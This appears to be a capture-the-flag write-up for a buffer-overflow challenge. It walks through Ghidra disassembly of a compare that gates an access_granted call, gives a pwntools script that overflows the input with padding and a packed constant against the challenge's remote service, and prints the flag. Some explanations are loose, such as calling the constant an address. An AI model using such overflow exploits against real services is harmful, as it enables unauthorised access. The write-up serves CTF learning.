 # Classic Buffer-overflow


**The challenge was to overflow the input buffer and pass a compare.**


opening up the binary in ghidra and looking at the functions section
we can see that we have a main function.

Looking at the disassembly for main we first see all 
the local variables being set and then some strings being printed.

[Picture of the disassembly]

Looking further we get a very interesting disassembly

```asm
0001139a 81 7d f4  CMP  dword ptr [EBP + -0xc]=>local_14,0x6275726e
000113a1 75 07     JNZ  LAB_000113aa
000113a3 e8 c5 fe  CALL access_granted
         ff ff
```

if `local_14` is equal to `0x6275726e`
we will jump to `access_granted` and if not we jump to `LAB_000113aa`
which just throws at us "Not authenticated" and our row number.

[Picture of LAB_000113aa disassembly]


## The attack plan

So with all this information we can start to build out our exploit

first we know that we have control over `local_14` because that's the input we provide. Overflowing the buffer by sending in 15 A's then passing in the address given in the disassembly should give us a shell.

```python
#!/usr/bin/python3

from pwn import *

padding = b"A"*15
payload = padding + p32(0x6275726e)

r = remote('0xa.is', 31337)
r.recvuntil('Key: ')
r.sendline(payload)

print(r.recv().decode('Latin-1'))
r.interactive()
```


#### Flag: 10an{r4bb1t_flu5h0t_50m30n3_t4lk_t0_m3}

